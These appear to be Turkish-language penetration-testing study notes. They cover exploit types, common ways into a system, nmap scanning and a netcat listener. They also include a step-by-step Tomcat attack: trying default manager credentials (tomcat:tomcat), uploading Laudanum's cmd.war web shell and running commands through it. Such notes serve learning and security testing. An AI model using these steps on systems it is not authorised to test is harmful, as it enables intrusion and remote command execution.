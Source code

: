 ## Exploit Türleri

1) Remote

2) Local

3) Dos

4) 0day

**- Bir sisteme sızmanın 5 yolu:**

1) İşletim sistemindeki zafiyetler	(MS08-067, MS16-098..)

2) Üçüncü parti yazılımlardaki zafiyetler	(CVE-2016-8523, CVE-2016-9079)

3) Yapılandırma Eksiklikleri	(FTP, Tomcat, Jenkins...)

4) Ağ tabanlı Zafiyetler	(ARP Poisoning, NETBIOS/LLMNR Poisoning)

5) Sosyal mühendislik		(Phishing, Vishing)

- nmap ile -n parametresi kullanmak ters DNS sorgularını skip etmesini sağlar. Eğer işimiz sadece IP'ler ile ise işlemi hızlandırır.

		=> nmap -n -Pn -sV -v --open <target>

- Windows makinelerde 135, 139, 445 portları açık gelir. 
- İşletim sistemini nokta atışı olarak bilmemiz gerekir. Eğer bunu öğrenmek istiyorsak smb-os-discovery script'ini kullanabiliriz. (Windows 10'a kadar çalışır.) 
- Windows makinede Workgroup: WORKGROUP ise makine standalone (tek tabanca) takılan bir makinadır.
- Bulduğumuz exploit'leri bilgisayar programları gibi indirip çalıştırabiliriz. Linux kullanırken tercihen python ile yazılan exploitler daha avantajlı, çünkü windows'a karşı C ile yazılmış bir exploiti kullanabilmemiz için kütüphaneleri tanıtmak ve wine benzeri bir program kullanmak zorundayız.

**- Exploiti yolladıktan sonra gelen bağlantı isteklerini dinlemek için:**
		
		=> nc <hedef> <port> -vv
		
- Windows'ta en yüksek yetkili kullanıcı: nt authority/system
- Hedefte exploit edilen uygulama hangi kullanıcı tarafından çalıştırılmışsa biz de o kullanıcının yetkilerine sahip oluruz.

**- Linux örneği:**

	=> nmap -n -Pn -sV -v IP -p 8180 (Apache Tomcat/Coyote JSP engine 1.1) (HTTP)
	B> IP:8180
	B> IP:8180/askojdoksa/ (Uygulamaya hata verdirttiğimizde versiyon bilgisi yazabilir.)
	B> IP:8180/manager/html default user:pass'ları elle veya araçlarla deneyebiliriz. (tomcat:tomcat)

- Tomcat paneline girdiğimizde eğer war file to upload kısmı geliyorsa yönetici hesabıyla giriş yaptığımız anlamına gelir.
- En altta işletim sistemi ve kernel bilgisi yer alır.
- war uzantısı zip gibidir.

		=> cd /usr/share/laudanum/	(Çeşitli shell dosyaları bulunan bir dizin, kali default)
		=> cd jsp/	(cmd.war kullanacağımız dosya)
		B> cmd.war dosyasını upload ediyoruz.
		B> IP:8180/cmd/cmd.jsp
		B> whoami (tomcat55 => yetkisiz bir kullanıcı, sadece tomcat servisini başlatır veya durdurur.)
